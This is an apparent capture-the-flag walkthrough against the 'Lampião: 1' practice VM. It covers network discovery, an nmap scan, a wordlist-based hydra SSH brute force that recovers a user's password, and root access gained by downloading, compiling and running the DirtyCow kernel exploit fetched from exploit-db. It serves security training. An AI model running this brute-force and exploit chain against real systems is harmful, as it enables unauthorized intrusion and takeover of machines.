



#### Lampião: 1

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Limited Shell](#limited-shell)
- [Privilege Escalation](#privilege-escalation)
- [Gaining Root](#gaining-root)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.81  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 2601:5cc:c900:4024::ea8d  prefixlen 128  scopeid 0x0<global>
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        inet6 2601:5cc:c900:4024:48a0:c058:1c59:2e8f  prefixlen 64  scopeid 0x0<global>
        inet6 2601:5cc:c900:4024:20c:29ff:feb0:a919  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 17184  bytes 19382041 (18.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 268695  bytes 16957985 (16.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 20  bytes 1116 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1116 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Identify Victim

```sh
root@kali:~# netdiscover -r 10.0.0.1/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 7 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 420
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 10.0.0.1        00:50:f1:80:00:00      1      60  Intel Corporation
 10.0.0.20       bc:9f:ef:69:35:19      1      60  Apple, Inc.
 10.0.0.95       f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 10.0.0.87       b8:c1:11:0b:52:0c      1      60  Apple, Inc.
 10.0.0.144      e8:2a:44:d2:47:69      1      60  Liteon Technology Corporation
 10.0.0.188      00:0c:29:27:23:47      1      60  VMware, Inc.
 10.0.0.254      00:05:04:03:02:01      1      60  Naray Information & Communication Enterprise

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/lampiao# nmap -sC -sV -oA lampiao.nmap 10.0.0.188 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-28 20:18 EDT
Nmap scan report for 10.0.0.188
Host is up (0.0026s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 46:b1:99:60:7d:81:69:3c:ae:1f:c7:ff:c3:66:e3:10 (DSA)
|   2048 f3:e8:88:f2:2d:d0:b2:54:0b:9c:ad:61:33:59:55:93 (RSA)
|   256 ce:63:2a:f7:53:6e:46:e2:ae:81:e3:ff:b7:16:f4:52 (ECDSA)
|_  256 c6:55:ca:07:37:65:e3:06:c1:d6:5b:77:dc:23:df:cc (ED25519)
80/tcp   open  http?
| fingerprint-strings:
|   NULL:
|     _____ _ _
|     |_|/ ___ ___ __ _ ___ _ _
|     \x20| __/ (_| __ \x20|_| |_
|     ___/ __| |___/ ___|__,_|___/__, ( )
|     |___/
|     ______ _ _ _
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Lampi\xC3\xA3o
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.70%I=7%D=10/28%Time=5BD651CB%P=x86_64-pc-linux-gnu%r(NUL
SF:L,1179,"\x20_____\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\|_\x20\x20\x20_\|\x20\|\x20\(\
SF:x20\)\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\n\x20\x20\|\x20\|\x20\|\x20\|_\|/\x20___\x20\x20\x20\x20___\x20\x2
SF:0__\x20_\x20___\x20_\x20\x20\x20_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:n\x20\x20\|\x20\|\x20\|\x20__\|\x20/\x20__\|\x20\x20/\x20_\x20\\/\x20_`
SF:\x20/\x20__\|\x20\|\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20_
SF:\|\x20\|_\|\x20\|_\x20\x20\\__\x20\\\x20\|\x20\x20__/\x20\(_\|\x20\\__\
SF:x20\\\x20\|_\|\x20\|_\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\\___/\x20\\__\
SF:|\x20\|___/\x20\x20\\___\|\\__,_\|___/\\__,\x20\(\x20\)\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20__/\x20\|/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|___/\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\n______\x20_\x20\x20\x20\x20\x20\x20\x20_\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20_\x20\n\|\x20\x20___\(_\)\x20\x20\
SF:x20\x20\x20\|\x20\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\|\x20\|\n
SF:\|\x20\|_\x20\x20\x20_\x20\x20\x20\x20__\|\x20\|_\x20\x20\x20_\x20_\x20
SF:__\x20___\x20\x20\x20__\x20_\x20\x20\x20\x20___\x20\x20__\x20_\x20_\x20
SF:\x20\x20_\x20\x20__\x20_\|\x20\|\n\|\x20\x20_\|\x20\|\x20\|\x20\x20/\x2
SF:0_`\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x20\\\x20/\x20_`\x20\|\x20\
SF:x20/\x20_\x20\\/\x20_`\x20\|\x20\|\x20\|\x20\|/\x20_`\x20\|\x20\|\n\|\x
SF:20\|\x20\x20\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|_\|\x20\|\x20\|\x20\
SF:|\x20\|\x20\|\x20\|\x20\(_\|\x20\|\x20\|\x20\x20__/\x20\(_\|\x20\|\x20\
SF:|_\|\x20\|\x20\(_\|\x20\|_\|\n\\_\|\x20\x20\x20\|_\|\x20\x20\\__,_\|\\_
SF:_,_\|_\|\x20\|_\|");
MAC Address: 00:0C:29:27:23:47 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.87 seconds
root@kali:~/lampiao#
```

###### Web Enumeration

```
http://10.0.0.188/
```



```
http://10.0.0.188:1898/
```


Users &rarr; `tiago`, `eder`

```sh
root@kali:~/lampiao# wc -l username.txt
2 username.txt
root@kali:~/lampiao#
```

```sh
root@kali:~/lampiao# cewl http://10.0.0.188:1898/?q=node/1 --write wordlist.txt
CeWL 5.4.3 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
root@kali:~/lampiao#
```

```sh
root@kali:~/lampiao# wc -l wordlist.txt
835 wordlist.txt
root@kali:~/lampiao#
```


```sh
root@kali:~/lampiao# hydra -L username.txt -P wordlist.txt 10.0.0.188 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-28 20:57:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1670 login tries (l:2/p:835), ~105 tries per task
[DATA] attacking ssh://10.0.0.188:22/
[22][ssh] host: 10.0.0.188   login: tiago   password: Virgulino
[STATUS] 996.00 tries/min, 996 tries in 00:01h, 676 to do in 00:01h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
root@kali:~/lampiao#
```

###### Limited Shell

```sh
root@kali:~/lampiao# ssh tiago@10.0.0.188
The authenticity of host '10.0.0.188 (10.0.0.188)' can't be established.
ECDSA key fingerprint is SHA256:64C0fMfgIRp/7K8EpiEiirq/SrPByxrzXzn7bLIqxbU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.0.188' (ECDSA) to the list of known hosts.
tiago@10.0.0.188's password:
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Oct 28 22:27:22 BRST 2018

  System load:  0.55              Processes:           203
  Usage of /:   7.5% of 19.07GB   Users logged in:     0
  Memory usage: 33%               IP address for eth0: 10.0.0.188
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Fri Apr 20 14:40:55 2018 from 192.168.108.1
tiago@lampiao:~$ id
uid=1000(tiago) gid=1000(tiago) groups=1000(tiago)
tiago@lampiao:~$
```

###### Privilege Escalation

[`mzet-/linux-exploit-suggester`](https://github.com/mzet-/linux-exploit-suggester)

```sh
tiago@lampiao:~$ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
--2018-10-28 22:31:03--  https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.32.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.32.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 68294 (67K) [text/plain]
Saving to: ‘linux-exploit-suggester.sh’

100%[==================================================================================================================================================================>] 68,294      --.-K/s   in 0.04s

2018-10-28 22:31:03 (1.65 MB/s) - ‘linux-exploit-suggester.sh’ saved [68294/68294]

tiago@lampiao:~$
```

```sh
tiago@lampiao:~$ chmod +x linux-exploit-suggester.sh
```

```sh
tiago@lampiao:~$ ./linux-exploit-suggester.sh

Available information:

Kernel version: 4.4.0
Architecture: i686
Distribution: ubuntu
Distribution version: 14.04.5
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

70 kernel space exploits
34 user space exploits

Possible Exploits:

[+] [CVE-2016-0728] keyring

   Details: http://perception-point.io/2016/01/14/analysis-and-exploitation-of-a-linux-kernel-vulnerability-cve-2016-0728/
   Download URL: https://www.exploit-db.com/download/40003
   Comments: Exploit takes about ~30 minutes to run. Exploit is not reliable, see: https://cyseclabs.com/blog/cve-2016-0728-poc-not-working

[+] [CVE-2016-2384] usb-midi

   Details: https://xairy.github.io/blog/2016/cve-2016-2384
   Tags: [ ubuntu=14.04 ],fedora=22
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-2384/poc.c
   Comments: Requires ability to plug in a malicious USB device and to execute a malicious binary as a non-privileged user

[+] [CVE-2016-4557] double-fdput()

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
   Tags: ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/39772.zip
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE

   Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
   Comments: CAP_NET_ADMIN caps OR CONFIG_USER_NS=y needed. No SMEP/SMAP/KASLR bypass included. Tested in QEMU only

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Tags: ubuntu=16.04{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/cve-2017-7308/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels

[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Tags: debian=9,fedora=25|26|27,[ ubuntu=14.04|16.04|17.04 ]
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Tags: [ ubuntu=14.04{kernel:4.4.0-*} ],ubuntu=16.04{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/cve-2017-1000112/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2009-1185] udev

   Details: https://www.exploit-db.com/exploits/8572/
   Tags: ubuntu=8.10|9.04
   Download URL: https://www.exploit-db.com/download/8572
   Comments: Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed

[+] [CVE-2009-1185] udev 2

   Details: https://www.exploit-db.com/exploits/8478/
   Download URL: https://www.exploit-db.com/download/8478
   Comments: SSH access to non privileged user is needed. Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed

[+] [CVE-2015-1318] newpid (apport)

   Details: http://openwall.com/lists/oss-security/2015/04/14/4
   Tags: [ ubuntu=14.04 ]
   Download URL: https://gist.githubusercontent.com/taviso/0f02c255c13c5c113406/raw/eafac78dce51329b03bea7167f1271718bee4dcc/newpid.c

[+] [CVE-2015-1318] newpid (apport) 2

   Details: http://openwall.com/lists/oss-security/2015/04/14/4
   Tags: ubuntu=14.04.2
   Download URL: https://www.exploit-db.com/download/36782

[+] [CVE-2015-3202] fuse (fusermount)

   Details: http://seclists.org/oss-sec/2015/q2/520
   Tags: debian=7.0|8.0,[ ubuntu=* ]
   Download URL: https://www.exploit-db.com/download/37089
   Comments: Needs cron or system admin interaction

[+] [CVE-2017-0358] ntfs-3g-modprobe

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1072
   Tags: ubuntu=16.04|16.10,debian=7|8
   Download URL: https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/41356.zip
   Comments: Distros use own versioning scheme. Manual verification needed. Linux headers must be installed. System must have at least two CPU cores.

tiago@lampiao:~$
```



###### Gaining Root

```sh
tiago@lampiao:~$ wget https://www.exploit-db.com/download/40847.cpp
--2018-10-28 22:32:48--  https://www.exploit-db.com/download/40847.cpp
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/txt]
Saving to: ‘40847.cpp’

    [ <=>                                                                                                                                                               ] 10,531      --.-K/s   in 0s

2018-10-28 22:32:48 (134 MB/s) - ‘40847.cpp’ saved [10531]

tiago@lampiao:~$
```



```sh
tiago@lampiao:~$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
tiago@lampiao:~$ ./dcow -s
Running ...
Password overridden to: dirtyCowFun

Received su prompt (Password: )

root@lampiao:~# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@lampiao:~# cp /tmp/.ssh_bak /etc/passwd
root@lampiao:~# rm /tmp/.ssh_bak
root@lampiao:~# id
uid=0(root) gid=0(root) groups=0(root)
root@lampiao:~#
```

```sh
root@lampiao:~# ls -l
total 4
-rw-r--r-- 1 root root 33 Apr 20  2018 flag.txt
root@lampiao:~# cat flag.txt
9740616875908d91ddcdaa8aea3af366
root@lampiao:~#
```